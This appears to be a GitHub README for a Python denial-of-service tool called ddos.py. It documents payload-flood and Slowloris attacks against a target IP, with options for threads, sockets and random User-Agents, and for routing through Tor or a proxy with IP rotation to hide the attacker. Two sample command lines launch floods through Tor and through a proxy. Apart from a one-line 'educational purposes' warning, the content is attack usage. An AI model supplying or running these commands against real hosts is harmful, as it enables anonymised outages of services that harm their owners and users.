 README (English)
# Network Attack Tool

A Python script for testing Payload and Slowloris attacks with support for Proxy and Tor.

## Features

- Payload attack with customizable size and message  
- Slowloris attack support  
- Works with Proxy and Tor  
- Random User-Agent support  
- Configurable threads and sockets  

## Usage

```
python main.py [options]
Options
Option	Description
-h, --help	Show help menu
--ip <IP>	Target IP address
-p, --port <PORT>	Target port (default: 80)
-ths, --threads <N>	Number of threads (default: 100)
-num-socks, -n-socks	Number of Socks (default: 1000)
-ra, --random-agent	Use random User-Agent

Payload Mode (works with Tor & Proxy)
Option	Description
-payloada, --payload-attack	Send a JSON payload to server
--set-size-payload, -set-p	Set payload size (default 51200)
--set-msg-payload	Set custom payload message
--random-payload	Use randomized numeric payload

Slowloris Mode (works with Tor & Proxy)
Option	Description
-slowa, --slowloris-attack	Perform Slowloris attack

Tor & Proxy (usable with Payload and Slowloris)
Tor
Option	Description
--tor-ip	Set Tor proxy IP
--tor-port	Set Tor proxy port
-c-tor-ip, --change-tor-ip	Change Tor IP during attack

Proxy
Option	Description
--proxy-ip <IP>	Set Proxy IP
--proxy-port <PORT>	Set Proxy Port
```
## Examples
```
Payload attack 100KB via Tor:
python ddos.py --ip 1.2.3.4 -p 80 -payloada --set-size-payload 102400 --tor-ip 127.0.0.1 --tor-port 9050
Slowloris attack via Proxy:

python ddos.py --ip 1.2.3.4 -p 80 -slowa --proxy-ip 192.168.1.10 --proxy-port 1080
Warning
Use only for testing and educational purposes.

```
